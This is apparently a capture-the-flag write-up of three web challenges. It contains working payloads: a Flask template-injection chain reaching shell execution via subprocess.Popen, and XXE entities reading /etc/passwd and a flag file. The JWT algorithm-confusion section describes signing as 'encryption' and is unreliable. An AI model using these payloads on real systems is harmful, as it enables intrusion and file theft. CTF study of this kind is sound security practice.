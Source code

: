 * * *
![image](https://github.com/user-attachments/assets/744acab1-abef-48c8-babd-c61ed1646cc9)

* * *

### **Challenges**

### **Web**

-     Parrot the emu
-     Zoo feedback form
-     Co2
-     I am Confusion

---------------------------------

### Web

### Challenge: Parrot the emu

----------------------------------

![image](https://github.com/user-attachments/assets/8f1e8226-6491-4ec6-8705-30129f0adc5e)


- The index route `/` is the vulnerable part of the web app's code. The index page passes the `user_input` variable  to  the `render_template_string()` which is vulnerable to server side template injection in flask web apps' code.It allows an attacker to inject code into templaates.

      @app.route('/', methods=['GET', 'POST'])
      def vulnerable():
          chat_log = []
      
          if request.method == 'POST':
              user_input = request.form.get('user_input')
              try:
                  result = render_template_string(user_input)
              except Exception as e:
                  result = str(e)
      
              chat_log.append(('User', user_input))
              chat_log.append(('Emu', result))
          
          return render_template('index.html', chat_log=chat_log)

- Testing our little fact by executing \{\{7*7\}\},the server returned the value `49`

![image](https://github.com/user-attachments/assets/f30a52a9-2651-4f55-8e01-c577b0da806b)

### RCE

- I used the payload \{\{''.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()\}\} to access the classes available

![image](https://github.com/user-attachments/assets/a4b3b2a7-ca56-4dbd-812d-d42543db5721)

- After checking the list of available classes, I got shell command access with class `subprocess.Popen` on index `213`

       Payload: ''.__class__.__base__.__subclasses__()[213]

![image](https://github.com/user-attachments/assets/ce45878b-c7f2-4b2a-9005-6784a09b30a3)

### Reading the flag

- Flag payload

      Payload: ''.__class__.__base__.__subclasses__()[213]("cat flag",shell=True,stdout=-1).communicate()

![image](https://github.com/user-attachments/assets/9312e1e3-ace1-42cc-8fff-53d6714c7bda)

- Flag-:```DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}```

---------------------------------------

### Challenge: Zoo Feedback form

---------------------------------------

![image](https://github.com/user-attachments/assets/25cbd005-207a-423c-b2e1-9403eb6efbb7)

- After reviewing the source code, I noticed that `resolve_entities` was set to `True` which forces lxml parser to resolve external entities. In a whole, the main vulnerability is `XML External Entity Expansion` which allows an attacker to inject xml entities into a web application.

  Vulnerable Code:
            
            try:
               parser = etree.XMLParser(resolve_entities=True)

- Fix: Set resolve_entities to `False`

- I intercepted the request with burpsuite

![image](https://github.com/user-attachments/assets/4da48e9d-c2f3-42ca-92b1-aeb1e05ba5ac)

- I used this payload to read the `/etc/passwd` file

  Payload:

      <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
                  <root>
                 <feedback>
                  &example;
                 </feedback>
                  </root>

![image](https://github.com/user-attachments/assets/7451bb98-b2c6-47f4-8c3b-17f946a889f2)

- Then, I read the flag located at `/app/flag.txt`.

            <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/app/flag.txt"> ]>
                        <root>
                       <feedback>
                          &example;
                        </feedback>
                        </root>

![image](https://github.com/user-attachments/assets/ab20d730-43d0-48d2-99bd-f933e65dc8ee)

- Flag-:```DUCTF{emU_say$_he!!0_h0!@_ci@0}```
--------------------------

### Challenge: I am Confusion

--------------------------

![image](https://github.com/user-attachments/assets/9a30d811-d76a-4d40-9a0f-1dca3b2452ee)

- Source code:

                  // ascii art
                  const asciiArt = fs.readFileSync('ascii-art.txt', 'utf8');
                  
                  // algs
                  const verifyAlg = { algorithms: ['HS256','RS256'] }
                  const signAlg = { algorithm:'RS256' }
                  
                  // keys
                  // change these back once confirmed working
                  const privateKey = fs.readFileSync('keys/priv.key')
                  const publicKey = fs.readFileSync('keys/pubkeyrsa.pem')
                  const certificate = fs.readFileSync('keys/fullchain.pem')
                  
                  // middleware
                  app.use(express.static(__dirname + '/public'));
                  app.use(express.urlencoded({extended:false}))
                  app.use(cookieParser())
                  
                  app.get('/', (req, res) => {
                    res.status(302).redirect('/login.html')
                  });
                  
                  app.post('/login', (req,res) => {
                    var username = req.body.username
                    var password = req.body.password
                  
                    if (/^admin$/i.test(username)) {
                      res.status(400).send("Username taken");
                      return;
                    }
                  
                    if (username && password){
                      var payload = { user: username };
                      var cookie_expiry =  { maxAge: 900000, httpOnly: true }
                  
                      const jwt_token = jwt.sign(payload, privateKey, signAlg)
                  
                      res.cookie('auth', jwt_token, cookie_expiry)
                      res.redirect(302, '/public.html')
                    } else {
                      res.status(404).send("404 uh oh")
                    }
                  });
                  
                  app.get('/admin.html', (req, res) => {
                    var cookie = req.cookies;
                    jwt.verify(cookie['auth'], publicKey, verifyAlg, (err, decoded_jwt) => {
                      if (err) {
                        res.status(403).send("403 -.-");
                      } else if (decoded_jwt['user'] == 'admin') {
                        res.sendFile(path.join(__dirname, 'admin.html')) // flag!
                      } else {
                        res.status(403).sendFile(path.join(__dirname, '/public/hehe.html'))
                      }
                    })
                  })
                  
                  app.get('/public.html', (req, res) => {
                    var cookie = req.cookies;
                    jwt.verify(cookie['auth'], publicKey, verifyAlg, (err, decoded_jwt) => {
                      if (err) {
                        res.status(302).redirect('/login.html');
                      } else if (decoded_jwt['user']) {
                        res.sendFile(path.join(__dirname, 'public.html'))
                      }
                    })
                  })

- The challenge's implements the RS256 but it is vulnerable to `JWT Confusion Attack` which occurs when a server allows the use of algorithm `RS256` and `HS256` in verifying a `Json Web Token`. A `RS256` algorithm applies the asymmetric form of encryption that encrypts with the public key and can only be decrypted with the private key. `Hs256` on the other hand applies the symmetric form of encryption requiring only the public key for encryption. If the jwt `'alg'` header is set `hs256`, the server decrypts only with the public key. If an attacker can derive the public key, he can decrypt the jwt token and edit it for malicious purposes.

### Vulnerable code snippets

-
  
--------------------------
### References:
--------------------------

- Lxml.etree's XXE Attack: [Codeql's blog](https://codeql.github.com/codeql-query-help/python/py-xxe/)
- XXE's details: [Hacktrickz](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
